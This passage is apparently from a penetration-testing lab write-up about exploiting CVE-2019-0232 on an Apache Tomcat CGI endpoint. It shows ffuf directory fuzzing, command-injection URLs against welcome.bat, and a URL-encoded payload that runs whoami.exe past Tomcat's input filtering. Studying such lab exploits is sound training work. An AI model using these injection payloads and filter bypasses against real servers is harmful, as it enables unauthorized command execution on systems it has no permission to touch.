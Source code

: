 Used to brute-force directories and files:

### 🔍 Fuzz `.cmd` Extensions

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.cmd
```

🟥 No results found.

### 🔍 Fuzz `.bat` Extensions

```bash
ffuf -w /usr/share/dirb/wordlists/common.txt -u http://10.129.204.227:8080/cgi/FUZZ.bat
```

✅ Found: `welcome.bat`

Access it:

```
http://10.129.204.227:8080/cgi/welcome.bat
```

## 🚨 Exploitation of CVE-2019-0232

With a known `.bat` script (`welcome.bat`), inject commands:

```
http://10.129.204.227:8080/cgi/welcome.bat?&dir
```

🟢 `dir` command returns directory listing.

## 📤 Retrieving Environment Variables

```
http://10.129.204.227:8080/cgi/welcome.bat?&set
```

### 📄 Observations

* `PATH` is unset.
* Must provide **full path** to binaries (e.g., `whoami`).

## ⛔ Bypass Character Filtering

Direct access fails due to Tomcat input filtering:

```
http://10.129.204.227:8080/cgi/welcome.bat?&c:\windows\system32\whoami.exe
```

### ✅ Solution: URL Encode Payload

```
http://10.129.204.227:8080/cgi/welcome.bat?&c%3A%5Cwindows%5Csystem32%5Cwhoami.exe
```

---